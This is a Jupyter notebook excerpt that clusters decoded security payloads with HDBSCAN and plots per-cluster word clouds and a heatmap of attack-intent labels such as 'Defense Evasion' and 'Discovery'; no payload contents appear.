

In [12]:
#tf-IDF filtered wordclouds for HDBSCAN clusters
from wordcloud import WordCloud
import matplotlib.pyplot as plt
import math
for i in range(n_clusters):
    cluster_data = newDataSet[newDataSet['cluster'] == i]
    text = " ".join(cluster_data['decoded_payload'].tolist())
    
    # for word, we use the same token pattern as before
    # Use the same token pattern to extract words
    tokens = re.findall(token_pattern, text)
    filtered_text = " ".join(tokens)
    wordcloud = WordCloud(width=800, height=400, background_color='white').generate(filtered_text)
    
    plt.figure(figsize=(10, 5))
    plt.imshow(wordcloud, interpolation='bilinear')
    plt.axis('off')
    plt.title(f'HDBSCAN Cluster {i} - TF-IDF Filtered Word Cloud')
    plt.show()

# displaying all wordclouds in a single image
import matplotlib.gridspec as gridspec
n_rows = math.ceil(n_clusters / 3)
fig = plt.figure(figsize=(16, n_rows * 4))
gs = gridspec.GridSpec(n_rows, 3, figure=fig)
for i in range(n_clusters):
    cluster_data = newDataSet[newDataSet['cluster'] == i]
    text = " ".join(cluster_data['decoded_payload'].tolist())
    
    # for word, we use the same token pattern as before
    tokens = re.findall(token_pattern, text)
    filtered_text = " ".join(tokens)
    wordcloud = WordCloud(width=800, height=400, background_color='white').generate(filtered_text)
    
    ax = fig.add_subplot(gs[i // 3, i % 3])
    ax.imshow(wordcloud, interpolation='bilinear')
    ax.set_title(f'Cluster {i}', fontsize=14, fontweight='bold', pad=10)
    ax.axis('off')

                Set_Fingerprint  cluster
0  [Defense Evasion, Discovery]        5
1  [Defense Evasion, Discovery]        5
2  [Defense Evasion, Discovery]        5
3  [Defense Evasion, Discovery]        5
4  [Defense Evasion, Discovery]        5




In [ ]:
import seaborn as sns
import matplotlib.pyplot as plt
# Analisys of intents per cluster
# The goal is to see how the different intents are distributed across the clusters

analysis_df = dataSet.copy()

analysis_df['cluster'] = cl_labels

print(analysis_df[['Set_Fingerprint', 'cluster']].head())


# "Explode" the dataframe so each intent in the list gets its own row
exploded_df = analysis_df.explode('Set_Fingerprint')

# Create the crosstab from the exploded data
ctab_exploded = pd.crosstab(exploded_df['cluster'], exploded_df['Set_Fingerprint'])

# Plotting the more accurate heatmap
plt.figure(figsize=(14, 6))
sns.heatmap(ctab_exploded, annot=True, fmt="d", cmap="YlGnBu")
plt.title("HDBSCAN - Detailed Intent Distribution per Cluster")
plt.show()